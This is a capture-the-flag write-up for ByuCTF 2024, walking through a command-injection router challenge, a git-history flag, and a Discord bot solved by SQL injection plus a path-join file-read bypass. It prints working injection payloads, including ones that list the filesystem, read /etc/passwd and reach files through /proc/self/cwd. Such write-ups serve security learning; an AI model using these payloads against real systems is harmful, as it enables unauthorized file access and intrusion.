

# ByuCTF 2024 - WriteUp

<p align="center">
	
</p>

> Written by [V0lk3n](https://twitter.com/V0lk3n)

## Scoreboard

<p align="center">
	
</p>

> There was a total of 1230 Teams playing that CTF

## Author Notes 

```
Thanks ByuCTF Team for this CTF! 
I personally prefered the last edition, but this one was cool too.

It was cool to see IoT category, but pentesting miss me...

ByuCTF 2023 Official WriteUp : https://github.com/BYU-CSA/BYUCTF-2024-Public

Bellow is my WriteUp, enjoy!

- V0lk3n
```

## Table of Contents
  
* [**IoT**](#iot)
	* [Reboot](#reboot)<br/><br/>
* [**Misc**](#misc)
	* [Gitting Started](#gitting-started)]
	* [Porg City](#porg-city)<br/><br/>
* [**Credits**](#Credits)


## IoT<a name="iot"></a>

## Reboot<a name="reboot"></a>

Value : **100 points**

Solve : **189 Solves**

Challenge Description :

`We found a command injection..... but you have to reboot the router to activate it...`

`nc reboot.chal.cyberjousting.com 1358`

Author:  **Legoclones**

Attachments :

- Netcat Instance
- <a href="assets/challenges/IoT/Reboot/reboot.zip">reboot.zip</a>

### Solution

#### Starting Point

From the description, we learn that there is a command injection inside a router, but it need to be rebooted to execute the command.

We download the source code from the attachments and start to analyze the code.

There is two code needed to solve this challenge. 

The first is the `Dockerfile`to understand how the challenge is setup in the `netcat` server. The second is `server.py` to know how the router work.


#### Code analyze - Dockerfile

```bash
FROM debian:bullseye-slim

# install dependencies
RUN apt-get update
RUN apt-get upgrade -y
RUN apt-get install -y python3 xinetd
RUN rm -rf /var/lib/apt/lists/*

# setup unpriv user
RUN mkdir /ctf
RUN useradd -M -d /ctf ctf

# copy files
RUN echo "Connection blocked" > /etc/banner_fail
COPY ctf.xinetd /etc/xinetd.d/ctf
COPY start.sh /ctf
COPY server.py /ctf
COPY flag.txt /ctf
COPY xinetd.sh /ctf/xinetd.sh
COPY clean.sh /ctf/clean.sh

RUN mkdir -p /on/the/server/this/path/is/different/
RUN mv /ctf/flag.txt /on/the/server/this/path/is/different/$(cat /dev/urandom | tr -dc a-f0-9 | fold -w32 | head -n1)

# file perms
RUN chmod -R 750 /ctf
RUN chown -R root:ctf /ctf

# run
CMD ["bash", "/ctf/start.sh"]
EXPOSE 40000
```

From there, we learn that the `flag.txt`file is copied inside the `/ctf`folder. 

```bash
COPY flag.txt /ctf
```

And then many folder are created from the root of the server, but apparently we dont know their names.

```bash
RUN mkdir -p /on/the/server/this/path/is/different/
```

Finally, the flag content is copied inside it, and the flag filename is randomized.

```bash
RUN mv /ctf/flag.txt /on/the/server/this/path/is/different/$(cat /dev/urandom | tr -dc a-f0-9 | fold -w32 | head -n1)
```

In fact, we don't know where is the flag, but we know that it should start at the root of the server.

#### Code Analyze - server.py

```python
### IMPORTS ###
import os, time, sys


### INPUT ###
hostname = 'bababooey'

while True:
    print('=== MENU ===')
    print('1. Set hostname')
    print('2. Reboot')
    print()
    choice = input('Choice: ')

    if choice == '1':
        hostname = input('Enter new hostname (30 chars max): ')[:30]

    elif choice == '2':
        print("Rebooting...")
        sys.stdout.flush()
        time.sleep(30)
        os.system(f'cat /etc/hosts | grep {hostname} -i')
        print('Reboot complete')

    else:
        print('Invalid choice')
```

We can see that we have two choice, the first is to enter a new hostname with maximum 30 characters, which is then saved inside the `hostname`variable : 

```python
hostname = 'bababooey'

...

    if choice == '1':
        hostname = input('Enter new hostname (30 chars max): ')[:30]
```

The second is to reboot.

Looking at what happen when the router reboot and we see that a command is executed using `os.system`. The command run `cat` to read `/etc/hosts` file, and then use `grep` to take the `hostname`variable value with the `-i`parameter meaning `--ignore-case`used to "ignore case distinctions in patterns and data".

```python
    elif choice == '2':
        print("Rebooting...")
        sys.stdout.flush()
        time.sleep(30)
        os.system(f'cat /etc/hosts | grep {hostname} -i')
        print('Reboot complete')
```

Here is how i failed, and then how i solved the challenge.

We understand that we can inject commands in the hostname filed by escaping the `cat /etc/hosts | grep` field, by piping it or using semicolon or other similiar way.

We found how exploit it, now it's time to enumerate and retrieve the flag.

#### Exploitation - Enumerate and Fail

I started by setting an hostname to find the starting point of our flag at the root of the server.

To do this i used `| ls / #`, for an explaination, i used the pipe mark to escape the grep command and write my own command, and ended it with a pound character `#` to make the `-i` grep parameter as a comment.

Command used : `| ls / #`

```bash
=== MENU ===
1. Set hostname
2. Reboot

Choice: 1
Enter new hostname (30 chars max): | ls / #
=== MENU ===
1. Set hostname
2. Reboot

Choice: 2
Rebooting...
Usage: grep [OPTION]... PATTERNS [FILE]...
Try 'grep --help' for more information.
bin
boot
ctf
dev
etc
home
lib
lib64
media
mnt
ohno
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
Reboot complete
```

From there, all folder seem normal, excepted `ctf`and `ohno`. We know that our flag is not inside `ctf`so it should be inside `ohno` and many folder behind this.

Time to fail :)

I badly started to list folder inside `ohno`and so on... and i came at this point.

Final command used (due to 30 chars restriction) : `| ls /ohno/i/hope/this/isnt/ #` 

```bash
=== MENU ===
1. Set hostname
2. Reboot

Choice: 1
Enter new hostname (30 chars max): | ls /ohno/i/hope/this/isnt/ #
=== MENU ===
1. Set hostname
2. Reboot

Choice: 2
Rebooting...
Usage: grep [OPTION]... PATTERNS [FILE]...
Try 'grep --help' for more information.
17564611 too
Reboot complete
```

But... remember? Maximum 30 characters allowed in the hostname... Note that the folder path are saying "oh no i hope this isnt too", too what... too long?? Huh??? Thanks to the creator to make us cry.

SO I USED MY LEET POWER TO...... fail again. Yeah...

I used the wildcard star character `*` to make the path shorter, and reached this point.

Final command used (due to 30 chars restriction) : `|ls /oh*/*/*/*/*/*/*/*/*/*/*/*/ #` 

```bash
=== MENU ===
1. Set hostname
2. Reboot

Choice: 1
Enter new hostname (30 chars max): |ls /oh*/*/*/*/*/*/*/*/*/*/*/*/ #
=== MENU ===
1. Set hostname
2. Reboot

Choice: 2
Rebooting...
Usage: grep [OPTION]... PATTERNS [FILE]...
Try 'grep --help' for more information.
17564618 lol
Reboot complete
```

Yeah... Again too much characters. Look at that "lol" folder which is totally laughing at us è_é. And this time if you noted the path, it's saying "oh no i hope this isnt too long is this messing you up lol".

The creator was literally SURE, that we will do this! Also, can you imagine the time consumed for nothing? One folder = one reboot! But i laughed a lot! That's funny!

Well. Time be smarter!

#### Exploitation - Flag it!

At this moment, i asked myself "How can i list every folder which is inside `ohno`, and read every files in them (pretty sure there is only the flag at the end), at one go?".

So i used `find`, to list all the folder and the parameter `-exec`combined to `cat` to read all files inside these, and the magic happen!

Final Command used : `| find /oh* -exec cat {} + #`

```bash
=== MENU ===
1. Set hostname
2. Reboot

Choice: 1
Enter new hostname (30 chars max): | find /oh* -exec cat {} + #
=== MENU ===
1. Set hostname
2. Reboot

Choice: 2
Rebooting...
Usage: grep [OPTION]... PATTERNS [FILE]...
Try 'grep --help' for more information.
cat: /ohno: Is a directory
cat: /ohno/i: Is a directory
cat: /ohno/i/hope: Is a directory
cat: /ohno/i/hope/this: Is a directory
cat: /ohno/i/hope/this/isnt: Is a directory
cat: /ohno/i/hope/this/isnt/too: Is a directory
cat: /ohno/i/hope/this/isnt/too/long: Is a directory
cat: /ohno/i/hope/this/isnt/too/long/is: Is a directory
cat: /ohno/i/hope/this/isnt/too/long/is/this: Is a directory
cat: /ohno/i/hope/this/isnt/too/long/is/this/messing: Is a directory
cat: /ohno/i/hope/this/isnt/too/long/is/this/messing/you: Is a directory
cat: /ohno/i/hope/this/isnt/too/long/is/this/messing/you/up: Is a directory
cat: /ohno/i/hope/this/isnt/too/long/is/this/messing/you/up/lol: Is a directory
cat: /ohno/i/hope/this/isnt/too/long/is/this/messing/you/up/lol/arent: Is a directory
cat: /ohno/i/hope/this/isnt/too/long/is/this/messing/you/up/lol/arent/ctfs: Is a directory
cat: /ohno/i/hope/this/isnt/too/long/is/this/messing/you/up/lol/arent/ctfs/so: Is a directory
cat: /ohno/i/hope/this/isnt/too/long/is/this/messing/you/up/lol/arent/ctfs/so/much: Is a directory
cat: /ohno/i/hope/this/isnt/too/long/is/this/messing/you/up/lol/arent/ctfs/so/much/fun: Is a directory
byuctf{expl0iting_th1s_r3al_w0rld_w4s_s000_ann0ying}
Reboot complete
```

Finally! One Shot! But something like 45minutes in failure è_é. Be smarter!

The final full path is : `/ohno/i/hope/this/isnt/too/long/is/this/messing/you/up/lol/arent/ctfs/so/much/fun`

Flag : **byuctf{expl0iting_th1s_r3al_w0rld_w4s_s000_ann0ying}**


## Misc<a name="misc"></a>

## Gitting Started<a name="gitting-started"></a>

Value : **100 points**

Solve : **509 Solves**

Challenge Description :

`A local hacker, TheITFirefly, who started up a blog to talk about his exploits in the tech world, has hidden a flag in the source code for his blog. Luckily, his source code is publicly available in a git repo!`

`https://gitlab.com/TheITFirefly/tech-blog`

Author:  **TheITFirefly**


### Solution

This is an easy challenge to start the CTF. 

Going to the `gitlab`repository, we directly look at the commit history.

From there, we found a commit that jump to our eyes which is named "Fix accidental tracking of dynamically created resources".

<p align="center">
	
</p>

Opening that commit and looking at the code change reveal the flag.

<p align="center">
	
</p>


**Flag : byuctf{g1t_gud!}**


## Porg City<a name="porg-city"></a>

Value : **493 points**

Solve : **22 Solves**

Challenge Description :

`https://discord.gg/3CxRJhTgxs`

Author:  **deltabluejay**


### Solution

#### Starting Point

The description don't show anything excepted a discord link to join the server `Porg City`, so let's join it.

Once `Porg City`discord server joined, we can see the message bellow inside the `#Welcome` canal.

<p align="center">
	
</p>

Next, going to `#porg-plaza` canal show us some "useless" message, but also the bot.

<p align="center">
	
</p>

As we doesn't have write permissions in the canal, we need to use the bot using direct message.

Looking at the Bot profile description, and we can see that we can use it using the command `@Porg Bot helpme`.

<p align="center">
	
</p>

Using this command, we are able to see what kind of command we can executed. We can "Find our porg friend" (we don't understand yet the purpose), and also "Get it's source code".

<p align="center">
	
</p>

Let's retrieve the source code.

<p align="center">
	
</p>

We download it and start our code analyze.

#### Source Code Analyze

First, here is the Code tree.

```bash
$ tree      
.
├── code
│   ├── Dockerfile
│   ├── images
│   │   ├── bill.webp
│   │   ├── jen.webp
│   │   ├── jim.webp
│   │   ├── joe.webp
│   │   ├── magaret.webp
│   │   ├── pat.webp
│   │   ├── rachel.webp
│   │   ├── steve.webp
│   │   └── tim.webp
│   └── src
│       ├── flag.txt
│       ├── main.py
│       └── porgs.db
```

We have the Dockerfile, which is used to setup the challenge. A images folders with various "porgs" images. A folder source, with a fake flag, the main source code, and the porgs database.

First, let's review the Dockerfile.

#### Source Analyze - Dockerfile

```bash
FROM python:3.9

COPY images /srv/images

ENV RANDOM_DIR this_is_randomized_in_production
WORKDIR /usr/src/app/$RANDOM_DIR
COPY src .

RUN pip install --no-cache-dir disnake
ENV TOKEN='REDACTED'

RUN useradd ctf
RUN chown -R ctf:ctf /usr/src/app/$RANDOM_DIR
RUN chmod -R 500 /usr/src/app/$RANDOM_DIR
RUN chown -R ctf:ctf /srv/images
RUN chmod -R 500 /srv/images
USER ctf
CMD [ "python", "main.py" ]
```

From the Dockerfile, we can see how it's setting up inside the target server.

The images are copied from the `images` folder to `/srv/images`

```bash
COPY images /srv/images
```

Then it create an environment variable called `RANDOM_DIR` with a value randomized. It set as workdir the path `/usr/src/app/$RANDOM_DIR` and copy the content of `src` inside it. 

```bash
ENV RANDOM_DIR this_is_randomized_in_production
WORKDIR /usr/src/app/$RANDOM_DIR
COPY src .
```

Then it add an user `ctf`and give the correct permission to the user and folders.

In fact, this mean that we don't know the exact path of the `flag.txt` file, as it should be inside the `src` (as seen in the code tree), and is copied to `/usr/src/app/$RANDOM_DIR/flag.txt` and we don't know the `$RANDOM_DIR` environment variable value.

Now let's analyze the `main.py` code.

#### Source Analyze - main.py

Here is the code :

```python
import disnake
from disnake.ext import commands
import sqlite3
import os

connection = sqlite3.connect("porgs.db")
cursor = connection.cursor()

bot = commands.Bot(command_prefix=commands.when_mentioned)
intents = disnake.Intents.default()


class Porg:
    def __init__(self, data):
        (self.id, self.name, self.age, self.fav_color, self.image) = data


@bot.event
async def on_ready():
    print('Bot is up!')
    if 'TOKEN' in os.environ:
        del os.environ['TOKEN']


@bot.command()
async def helpme(ctx):
    if not isinstance(ctx.channel, disnake.DMChannel):
        await ctx.send("Please DM me to use this command.")
        return

    await ctx.send("""
        helpme - This command
        porg <name> - Find your porg friend
        source - Get my source code
    """)


@bot.command()
async def source(ctx):
    if not isinstance(ctx.channel, disnake.DMChannel):
        await ctx.send("Please DM me to use this command.")
        return
    
    src = disnake.File('code.zip')
    await ctx.send("Here's my source code!", file=src)


@bot.command()
async def porg(ctx, *, name: str):
    if not isinstance(ctx.channel, disnake.DMChannel):
        await ctx.send("Please DM me to use this command.")
        return

    query = f"SELECT * FROM porgs WHERE name LIKE '{name}'"
    try:
        cursor.execute(query)
        results = cursor.fetchall()
    except Exception as e:
        ctx.send("Error:", str(e))
        return

    if len(results) == 0:
        await ctx.send(f"No Porg found with name {name}")
        return

    result = results[0]
    porg = Porg(result)

    if ('..' in porg.image):
        await ctx.send("Nope!")
        return
    
    img = disnake.File(os.path.join('/srv/images/', porg.image))
    display = disnake.Embed(title=porg.name, color=0x2545d1)
    display.add_field(name="Name", value=porg.name, inline=True)
    display.add_field(name="Age", value=porg.age, inline=True)
    display.add_field(name="Favorite Color", value=porg.fav_color, inline=True)
    display.set_image(file=img)

    await ctx.send(embed=display)


bot.run(os.environ['TOKEN'])
```

The interesting part of the code, is the bot command `porg`.

```python
@bot.command()
async def porg(ctx, *, name: str):
    if not isinstance(ctx.channel, disnake.DMChannel):
        await ctx.send("Please DM me to use this command.")
        return

    query = f"SELECT * FROM porgs WHERE name LIKE '{name}'"
    try:
        cursor.execute(query)
        results = cursor.fetchall()
    except Exception as e:
        ctx.send("Error:", str(e))
        return

    if len(results) == 0:
        await ctx.send(f"No Porg found with name {name}")
        return

    result = results[0]
    porg = Porg(result)

    if ('..' in porg.image):
        await ctx.send("Nope!")
        return
    
    img = disnake.File(os.path.join('/srv/images/', porg.image))
    display = disnake.Embed(title=porg.name, color=0x2545d1)
    display.add_field(name="Name", value=porg.name, inline=True)
    display.add_field(name="Age", value=porg.age, inline=True)
    display.add_field(name="Favorite Color", value=porg.fav_color, inline=True)
    display.set_image(file=img)

    await ctx.send(embed=display)
```

In this part of the code, we can see that when we supply a "porg" name, an SQL query is executed to fetch the data inside the database. And as we can see, we should be able to exploit an SQL injection, in the name field.

```python
    query = f"SELECT * FROM porgs WHERE name LIKE '{name}'"
    try:
        cursor.execute(query)
        results = cursor.fetchall()
```

We can see that if there is an exception an error happen, but unforunatly, the bot don't show the error because there is no `await` before the `ctx.send`()

```python
    except Exception as e:
        ctx.send("Error:", str(e))
        return
```

If the name isn't inside the database, the bot reply with a message saying that the "porg is not found". And this time the bot reply because the `await` is present.

```python
    if len(results) == 0:
        await ctx.send(f"No Porg found with name {name}")
        return
```

We can see that there is a mitigation against LFI inside the image data column.

```python
    if ('..' in porg.image):
        await ctx.send("Nope!")
        return
```

Finally, we can see how the bot display inforations from the database.

```python
    img = disnake.File(os.path.join('/srv/images/', porg.image))
    display = disnake.Embed(title=porg.name, color=0x2545d1)
    display.add_field(name="Name", value=porg.name, inline=True)
    display.add_field(name="Age", value=porg.age, inline=True)
    display.add_field(name="Favorite Color", value=porg.fav_color, inline=True)
    display.set_image(file=img)

    await ctx.send(embed=display)
```

The thing interesting in it is about `porg.image`. The following line give the default path `/srv/images/` using `os.path.join` of the images.

```python
    img = disnake.File(os.path.join('/srv/images/', porg.image))
```

And the following line set the image as a file. 

```python
    display.set_image(file=img)
```

And then it display all that data as embed data.

```python
    await ctx.send(embed=display)
```

This is really interesting because if we can manage to make an SQL injection inside the query, and then manipulate the data displayed. We may be able to select the flag file instead of an image.

But we will have two main problem, the first is the local file inclusion mitigation, we will need to find a way to bypass.

The second is that we don't know where the flag is as we seen in the Dockerfile code. 

Now let's analyze the database.

#### Source Analyze - porgs.db

Using strings, we can "kind of" read the contend of the db. This is realy not ideal, because the entry are complicate to understand.

But at first look we can see that the `porgs` database have a table named `porgs` which containt `id`, `name`, `age`, `fav_color` and `image` columns.

```bash
$ strings porgs.db  
SQLite format 3
itableporgsporgs
CREATE TABLE "porgs" (
        "id"    INTEGER NOT NULL UNIQUE,
        "name"  TEXT NOT NULL,
        "age"   INTEGER NOT NULL,
        "fav_color"     TEXT NOT NULL,
        "image" TEXT NOT NULL,
        PRIMARY KEY("id")
indexsqlite_autoindex_porgs_1porgs
greentim.webp
!Stevecyellowsteve.webp
#Rachel
redrachel.webp
pinkpat.webp
%Magaret
brownmagaret.webp
Joe     bluejoe.webp
orangejim.webp
purplejen.webp
Bill
redbill.webp
```

Now for a better understanding of this, i used "SQLite Database Browser", where i go inside the "Execute SQL" tab to send a Query to show all the data inside the `porgs` table.

Query : `SELECT * FROM porgs;`

<p align="center">
	
</p>

From there we are able to see clearly whats the data. Now let's move on.

#### Exploitation - SQL Injection

Now that we have analyzed the code, let's see how the `@Porg Bot porg name`bot command work. We will took a name value of the `porgs.db` as value.

Query : `@Porg Bot porg Joe`

<p align="center">
	
</p>

Great! Now As we seen in the `main.py` code, we should be able to exploit an SQL injection in the bot using the `@Porg Bot porg {name}` command.

Let's try a basic injection using a quote and see what we got.

Query : `@Porg Bot porg '`
Full Query in the server side : `SELECT * FROM porgs WHERE name LIKE ''`

<p align="center">
	
</p>

Hum, no answer from the bot, as the quote should make an error, and that we cannot see the error (as we seen in source code analyse), let's try to make a query a bit more advanced which should reply a result.

Query : `@Porg Bot porg ' OR 1=1 --`
Full Query in the server side : `SELECT * FROM porgs WHERE name LIKE '' OR 1=1 --`

<p align="center">
	
</p>

Perfect! Here is another try i used using the `%` character which is interpreted as a wildcard inside the `name` field.

Query : `@Porg Bot porg %`
Full Query in the server side : `SELECT * FROM porgs WHERE name LIKE '%'`

<p align="center">
	
</p>

Now let's find a way to manipulate the data.

#### Exploitation - SQL Injection, Data Manipulation

The following query is a lot over looked, i ended with it because initially i was trying to create a row on the database to call my row after that. As i'm not really good with SQL, i was learning while doing the challenge. But at the end, it didn't worked as i was intending to work. But for the Write Up i want to include all of my various different query.

I Used `UNION ALL` operator to combine two statement, with my pseudo as `name` ,`NULL AS` value  as `age`, `fav_color`, and finally an existing image `bill.webp` as `img`, to initially create a row and be sure to return it at one go using `WHERE NOT EXISTS` with my second statement (this part is the useless one).

Query : `@Porg Bot porg v0lk3n' UNION ALL SELECT NULL AS id, 'v0lk3n' AS name, NULL AS age, NULL AS fav_color, 'bill.webp' AS img WHERE NOT EXISTS (SELECT 1 FROM porgs WHERE name = 'v0lk3n') --`

Full Query in the server side : `SELECT * FROM porgs WHERE name LIKE 'v0lk3n' UNION ALL SELECT NULL AS id, 'v0lk3n' AS name, NULL AS age, NULL AS fav_color, 'bill.webp' AS img WHERE NOT EXISTS (SELECT 1 FROM porgs WHERE name = 'v0lk3n') --` 

<p align="center">
	
</p>

As i said, this query is too much for nothing. So i've found another way a lot smaller than this. Once again using  `UNION`operator, and directly supply our data for the collumn in the right order.

Query : `@Porg Bot porg ' UNION SELECT NULL, 'v0lk3n', 42, 'whitehat', 'bill.webp' --`
Full Query in the server side : `SELECT * FROM porgs WHERE name LIKE '' UNION SELECT NULL, 'v0lk3n', 42, 'whitehat', 'bill.webp' --`

<p align="center">
	
</p>

Great! Now we need to find a way to manipulate the data of `img` to include our flag at this place. But for this, we will need to find a way to bypass the mitigation of the file inclusion in this space.

#### Exploitation - SQL Injection, Bypass Mitigation

As we seen in the Source Analyse, there is a Mitigation that disallow `..` inside the `img` collumn.

```python
    if ('..' in porg.image):
        await ctx.send("Nope!")
        return
```

I've found two bypass for this. The more easier and intended was to supply the full path. Because `os.path.join` will not count the first path when a second is used.

```python
    img = disnake.File(os.path.join('/srv/images/', porg.image))
```

In fact, if i supply `/full/path/tofile.txt` it will become `/srv/images//full/path/tofile.txt` and interpret is as two path and use `/full/path/tofile.txt` only.

Bypass : `/full/path/tofile.txt`

The second is again "useless", because i guess it's interpreted exactly as the same way. But i used the following one.

Bypass : `/./full/path/././tofile.txt`

<p align="center">
	
</p>

Now that we manipulated all the data with success, we can try to combine SQL Injection with Local File Inclusion to retrieve a file present on the server.

#### Exploitation - SQL Injection and Local File Inclusion

Note : While the CTF was running, i reached this point. I didn't find the way to retrieve the data unfortunately as i was using the Discord app instead of the browser, and i didn't thinking about this. Sadly, apparently the data should be returned directly as intended. But discord send a patch few days before the CTF which made the thing harder. (Anyway, i'm not sure i would find the way to find the flag, but i've retrieved `/etc/passwd` file with success, without seeing it...)

Let's start by attempting to retrieve `/etc/passwd` file.

Query : `@Porg Bot porg ' UNION SELECT NULL, 'v0lk3n', 42, 'whitehat', '/etc/passwd' --`
Full Query in the server side : `SELECT * FROM porgs WHERE name LIKE '' UNION SELECT NULL, 'v0lk3n', 42, 'whitehat', '/etc/passwd' --`

<p align="center">
	
</p>

The bot reply, with empty data for the image field. We need to use the Dev Tools of our browser and look at the network tab and refresh the page then look for the data.

The data can be found on the file `messages?limite=50` inside the objects of the `Response` tab.

<p align="center">
	
</p>

<p align="center">
	
</p>

Looking at the object of the bot answer, we can find the `Embeds` data, where we can found a cdn discord link containing the file. Open that link to download the `/etc/passwd` file and retrieve it's content.

<p align="center">
	
</p>

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ctf:x:1000:1000::/home/ctf:/bin/sh
```

Perfect! Now to retrieve the `flag.txt`, we need to repeat this process, but we need to know it's path location. And as it's randomized, we don't know it, we need to find a work around. 

A way to do this is to go inside the `/proc/self/cwd` folder, which is used as python workdir. By this way, the flag will be found inside `/proc/self/cwd/flag.txt`without needing to find the real path. 

For more information, take a look at the `procfs` documentation.

Procfs documentation : https://man7.org/linux/man-pages/man5/procfs.5.html

Query : `@Porg Bot porg ' UNION SELECT NULL, 'v0lk3n', 42, 'whitehat', '/proc/self/cwd/flag.txt' --`

Full Query in the server side : `SELECT * FROM porgs WHERE name LIKE '' UNION SELECT NULL, 'v0lk3n', 42, 'whitehat', '/proc/self/cwd/flag.txt' --`

<p align="center">
	
</p>

We open the Dev Tools, refresh the page, look at the `messages?limit=50` file and it's response.

<p align="center">
	
</p>

Then we look at the Objects and find the embeded URL.

<p align="center">
	
</p>

Open the Discord CDN link and we retrieve the flag!

<p align="center">
	
</p>

Official WriteUp : https://github.com/BYU-CSA/BYUCTF-2024-Public/tree/main/misc/porg-city

And bellow, how it should be as intended before the discord patch (screenshot taken from the official WriteUp)

<p align="center">
	
</p>

**Flag : `byuctf{hehehe_hASWHHyrc9_https://i.imgflip.com/8l27ka.jpg}`**

#### Try Harder!

For this challenge, i've sent 471 messages to the bot.

<p align="center">
	
</p>

A total of 642 messages, if we count the reply of the bot.

<p align="center">
	
</p>

Unfortunately, i haven't solved the challenge before the end of the CTF. But i learned a lot in SQL language and some other tips such as find the workdir inside the proc file system.

This was an amazing challenge!

## Credits<a name="Credits"></a>

Special thanks to :

- ByuCTF Staff! For the organization as alway!
- Zell! Which tried is best and took down a lot of OSINT and others challenge 

And of course... 

**Thanks to my team [Godzillhack!](https://godzillhack.com)**
